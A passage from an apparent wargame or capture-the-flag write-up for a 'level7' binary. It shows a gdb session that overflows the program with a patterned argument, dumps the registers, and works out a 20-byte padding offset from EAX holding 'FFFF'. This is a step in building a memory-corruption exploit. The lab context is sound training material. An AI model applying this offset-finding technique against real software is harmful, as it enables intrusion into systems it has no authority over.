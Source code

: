     > (gdb) r "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ" "1111"
    Starting program: /home/user/level7/level7 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ" "1111"

    Breakpoint 2, 0x080485a0 in main ()

    > (gdb) i r
    eax            0x804a018	134520856
    ecx            0x20fc1	135105
    edx            0xbffff8c0	-1073743680
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff6c0	0xbffff6c0
    ebp            0xbffff6e8	0xbffff6e8
    esi            0x0	0
    edi            0x0	0
    eip            0x80485a0	0x80485a0 <main+127>
    eflags         0x200286	[ PF SF IF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

    > (gdb) step
    Single stepping until exit from function main,
    which has no line number information.

    Breakpoint 1, 0x080485bd in main ()

    > (gdb) i r
    eax            0x46464646	1179010630
    ecx            0xbffff900	-1073743616
    edx            0xbffff905	-1073743611
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff6c0	0xbffff6c0
    ebp            0xbffff6e8	0xbffff6e8
    esi            0x0	0
    edi            0x0	0
    eip            0x80485bd	0x80485bd <main+156>
    eflags         0x210282	[ SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```

9. Perfect, we got it. So, since `0x46464646 = FFFF` we have a padding of `20` bytes.

    ```bash
    > python -c "print len('AAAABBBBCCCCDDDDEEEE')"
    20
    ```
